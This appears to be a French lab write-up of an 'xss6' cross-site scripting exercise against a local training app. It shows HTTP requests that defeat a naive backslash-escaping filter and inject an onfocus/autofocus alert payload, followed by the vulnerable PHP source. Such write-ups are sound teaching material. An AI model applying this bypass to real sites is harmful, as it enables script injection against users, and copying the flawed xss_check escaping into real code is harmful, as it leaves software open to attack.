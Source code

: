 # xxs6

## Exploitation

Afin de protéger l'application, l'auteur indique qu'il échappe maintenant le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (242).png>)

Le caractère `"` subit effectivement un traitement, il s'agit d'un échappement par l'insertion du caractère `\` :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2100
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\"" placeholder="keyword" required>
</div>
```

![](<../../../.gitbook/assets/image (177).png>)

Le contournement qui me parait le plus évident à tester est d'insérer également un caractère `\` afin d'échapper l'échappement :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2101
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\"" placeholder="keyword" required>
</div>
```

Cela semble fonctionner :&#x20;

![](<../../../.gitbook/assets/image (308).png>)

Il ne me reste plus qu'à adapter ma payload basée sur l'autofocus `whatever\" onfocus=alert(1) autofocus x=\"` (attention, j'enlève également les guillemets autour du code Javascript) :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22+onfocus%3Dalert%281%29+autofocus+x%3D%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2134
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\" onfocus=alert(1) autofocus x=\\"" placeholder="keyword" required>
 </div>       
```

![](<../../../.gitbook/assets/image (35).png>)

## Analyse du code source

La fonction `xss_check()` effectue un traitement sur le caractère `"` qui se retrouve échappé par l'ajout d'un `\` devant chaque occurrence. Le mot clé est ensuite affiché en tant que valeur de l'attribut HTML `value` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace('"', '\"', $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
